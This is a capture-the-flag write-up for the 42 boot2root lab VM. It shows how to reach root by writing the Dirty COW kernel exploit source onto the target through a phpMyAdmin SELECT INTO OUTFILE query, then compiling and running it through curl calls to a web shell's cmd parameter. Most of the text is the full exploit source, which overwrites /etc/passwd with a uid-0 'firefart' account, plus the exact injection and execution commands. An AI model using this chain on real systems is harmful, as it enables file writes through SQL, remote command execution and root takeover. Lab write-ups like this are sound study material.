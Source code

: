 Need to do steps from [Main Way](https://github.com/MrOnimus/42_boot2root/blob/master/writeup1.md) to stage after access to cmd throgh get request.

After this need to run SQL command in phpmyadmin:
```
SELECT  '#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = \"/etc/passwd\";
const char *backup_filename = \"/tmp/passwd.bak\";
const char *salt = \"firefart\";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

struct Userinfo {
   char *username;
   char *hash;
   int user_id;
   int group_id;
   char *info;
   char *home_dir;
   char *shell;
};

char *generate_password_hash(char *plaintext_pw) {
  return crypt(plaintext_pw, salt);
}

char *generate_passwd_line(struct Userinfo u) {
  const char *format = \"%s:%s:%d:%d:%s:%s:%s\\n\";
  int size = snprintf(NULL, 0, format, u.username, u.hash,
    u.user_id, u.group_id, u.info, u.home_dir, u.shell);
  char *ret = malloc(size + 1);
  sprintf(ret, format, u.username, u.hash, u.user_id,
    u.group_id, u.info, u.home_dir, u.shell);
  return ret;
}

void *madviseThread(void *arg) {
  int i, c = 0;
  for(i = 0; i < 200000000; i++) {
    c += madvise(map, 100, MADV_DONTNEED);
  }
  printf(\"madvise %d\\n\\n\", c);
}

int copy_file(const char *from, const char *to) {
  // check if target file already exists
  if(access(to, F_OK) != -1) {
    printf(\"File %s already exists! Please delete it and run again\\n\",
      to);
    return -1;
  }

  char ch;
  FILE *source, *target;

  source = fopen(from, \"r\");
  if(source == NULL) {
    return -1;
  }
  target = fopen(to, \"w\");
  if(target == NULL) {
     fclose(source);
     return -1;
  }

  while((ch = fgetc(source)) != EOF) {
     fputc(ch, target);
   }

  printf(\"%s successfully backed up to %s\\n\",
    from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = \"firefart\";
  user.user_id = 0;
  user.group_id = 0;
  user.info = \"pwned\";
  user.home_dir = \"/root\";
  user.shell = \"/bin/bash\";

  char *plaintext_pw;

  if (argc >= 2) {
    plaintext_pw = argv[1];
    printf(\"Please enter the new password: %s\\n\", plaintext_pw);
  } else {
    plaintext_pw = getpass(\"Please enter the new password: \");
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf(\"Complete line:\\n%s\\n\", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf(\"mmap: %lx\\n\",(unsigned long)map);
  pid = fork();
  if(pid) {
    waitpid(pid, NULL, 0);
    int u, i, o, c = 0;
    int l=strlen(complete_passwd_line);
    for(i = 0; i < 10000/l; i++) {
      for(o = 0; o < l; o++) {
        for(u = 0; u < 10000; u++) {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long*)(complete_passwd_line + o)));
        }
      }
    }
    printf(\"ptrace %d\\n\",c);
  }
  else {
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth,NULL);
  }

  printf(\"Done! Check %s to see if the new user was created.\\n\", filename);
  printf(\"You can log in with the username \'%s\' and the password \'%s\'.\\n\\n\",
    user.username, plaintext_pw);
    printf(\"\\nDON\'T FORGET TO RESTORE! $ mv %s %s\\n\",
    backup_filename, filename);
  return 0;
}' INTO OUTFILE '/var/www/forum/templates_c/exploit.c'
FIELDS TERMINATED BY '\t' ENCLOSED BY '' ESCAPED BY ''
LINES TERMINATED BY '\r\n' STARTING BY '

```

It's dirtycow epxploit **https://www.exploit-db.com/exploits/40839**.
I change symbols for correct sql format with http://www.unit-conversion.info/texttools/replace-text/
(Replace " -> \\", ' -> \\', \n -> \\\n)

And set with help https://stackoverflow.com/questions/5268088/extra-backslash-when-select-into-outfile-in-mysql
```
LINES TERMINATED BY '\r\n'
ESCAPED BY ''
```
because lines ended with '\\' symbol and escaped symboles conflicted with each other, so I couldn't compile file.


After that - compile and run exploit with:
```
curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=gcc%20-pthread%20exploit.c%20-o%20exploit%20-lcrypt"
curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=ls" //check if it correct compile
curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=./exploit%20123"
```

And we have firefart user with password 123 which is root. But I don't now how log in because su or su -c can't get passwd as argument.
